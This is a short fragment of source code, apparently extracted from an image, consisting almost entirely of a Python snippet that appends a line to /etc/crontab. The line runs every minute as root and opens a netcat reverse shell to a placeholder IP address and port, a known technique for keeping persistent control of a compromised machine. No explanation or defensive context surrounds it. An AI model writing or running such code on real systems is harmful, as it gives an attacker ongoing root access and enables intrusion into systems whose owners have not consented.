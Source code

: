 shell = '''
* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc
IP_ADDRESS PORT >/tmp/f
'''
f = open('/etc/crontab', 'a')
f.write(shell)
f.close()
